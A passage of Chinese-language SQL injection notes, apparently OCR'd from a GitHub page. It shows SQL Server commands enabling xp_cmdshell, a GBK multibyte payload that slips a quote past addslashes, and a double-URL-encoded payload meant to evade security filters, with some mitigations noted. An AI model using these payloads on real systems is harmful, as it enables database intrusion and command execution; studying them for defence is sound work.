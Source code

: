 ```
exec sp_configure 'show advanced options',1
reconfigure

exec sp_configure 'xp_cmdshell',1
reconfigure
```

> xp_regwrite可以写注册表

#### 编码问题

> 当应用与数据库所使用字符集不一致时，将导致误判

PHP中使用函数addslashes或开启magic_quotes_gpc时将对引号、\、NUL前添加转义符” \ “

##### 多字节编码

当数据库使用GBK字符集且使用addslashes函数转义时，输入

```
name=%bf%27 or 1=1--%20 
```

> name=¿' or 1=1-- 

“ \ ”ascii码为0x 5c，转义后内容变为

```
name=%bf%5c%27 or 1=1--%20 
```

数据库将0x bf 5c当成一个中文字符处理，单引号未被转义

如果使用real_escape_string函数则会考虑到数据库所使用字符集，避免此类问题

解决浏览器与服务器返回字符集的差别可以在HTML页面的\<meta>标签中指定charset

##### 多重编码

> 无法判断攻击者编码次数

当输入

```
id=1%2523 or 1=1
```

安全产品由于不知道编码多少次通常会解码到不能解为止，#后的内容被注释从而绕过检测

```
id=1# or 1=1
```

而Web应用只做一层解码，“ % ”为模运算

```
id=1%23 or 1=1
```

#### 长字符截断
